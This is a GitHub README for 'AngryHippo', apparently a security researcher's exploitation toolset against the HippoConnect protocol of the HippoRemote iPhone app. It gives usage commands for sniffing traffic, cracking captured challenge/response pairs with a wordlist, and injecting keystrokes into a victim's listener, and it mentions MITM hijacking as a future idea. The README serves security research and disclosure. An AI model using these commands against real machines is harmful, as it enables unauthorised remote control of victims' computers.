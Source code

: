 # AngryHippo - Exploitation Toolset for HippoConnect Protocol
```
                   /\____/\            _
                  /   ..   \          /_\  _ __   __ _ _ __ _   _
                 /  \    /  \        //_\\| '_ \ / _` | '__| | | |
                | 'X'    'X' |      /  _  \ | | | (_| | |  | |_| |
               / ____________ \     \_/ \_/_| |_|\__, |_|   \__, |
             , ,'    `--'    '. .              _  |___/      |___/
            _| |              | |_       /\  /(_)_ __  _ __   ___
          /  ' '              ' '  \    / /_/ / | '_ \| '_ \ / _ \
         (    `,',__________.','    )  / __  /| | |_) | |_) | (_) |
          \_    ` .V______V, '    _/   \/ /_/ |_| .__/| .__/ \___/
             |                  |               |_|   |_|
             |    ,-.    ,-.    |
              \      ).,(      /       HippoRemote Hacking Toolset
                \___/    \___/                  ~n00py~

```
## ABOUT:
This script was designed to attack the HippoConnect protocol which is used with the HippoRemote iPhone app and the HippoConnect listener.

## INSTALL:

All dependancies are met on a default installation of OS X.  

## USAGE:

### Sniffing with Angry Hippo
```
python hippo.py --sniff
```
### Cracking with Angry Hippo
```
python hippo.py --crack --wordlist [PATH TO WORDLIST] --challenge [CHALLENGE] --response [RESPONSE]
```
### Keystroke injection with Angry Hippo
```
python hippo.py --inject --target [VICTIM] --port [LISTENER_PORT] --key [PASSWORD] --address [LISTENER_IP] --timing [SECONDS]

```

For more information view the blog post located here: https://www.n00py.io/2017/01/control-your-mac-with-an-iphone-app-an-analysis-of-hipporemote/

###Future Ideas:
- Add multi-processing to the cracking module
- TCP hijacking if MITM to inject keystrokes without knowing the password
